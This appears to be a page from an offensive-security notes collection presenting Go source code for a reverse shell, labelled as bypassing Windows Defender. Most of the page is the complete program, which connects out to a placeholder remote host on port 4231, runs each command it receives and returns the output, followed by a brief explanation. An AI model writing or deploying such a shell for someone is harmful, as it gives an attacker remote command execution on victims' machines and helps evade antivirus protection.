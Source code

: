 ```yaml
---
description: Bypasses window defender
---
```


# Golang Reverse shell

The code above creates a socket connection to a remote host at the specified IP address and port number. It then enters a loop where it waits for a command to be sent from the remote host. Once a command is received, it is executed using the `exec.Command()` method, and the output and error messages are sent back to the remote host.

```
package main

import (
	"bufio"       // for reading from the socket
	"net"         // for creating a socket connection
	"os/exec"     // for running commands
	"strings"     // for trimming whitespace from input
	"strconv"     // for converting the port number to a string
)

const (
	REMOTE_HOST = "10.X.X.X" // the IP address of the remote host
	REMOTE_PORT = 4231       // the port to connect to on the remote host
)

func main() {
	// Connect to the remote host
	conn, err := net.Dial("tcp", REMOTE_HOST+":"+strconv.Itoa(REMOTE_PORT))
	if err != nil {
		// If there was an error, panic
		panic(err)
	}
	// Defer closing the connection until the function returns
	defer conn.Close()

	println("Connected to remote host.")

	for {
		println("Awaiting command...")

		// Read a message from the remote host
		message, err := bufio.NewReader(conn).ReadString('\n')
		if err != nil {
			// If there was an error, panic
			panic(err)
		}
		// Trim leading and trailing whitespace from the message
		message = strings.TrimSpace(message)

		println("Running command:", message)
		// Run the command
		cmd := exec.Command(message)
		output, err := cmd.CombinedOutput()
		if err != nil {
			println("Error running command:", err)
		}

		println("Sending response...")
		// Send the output and error messages back to the remote host
		conn.Write(output)
	}
}

```
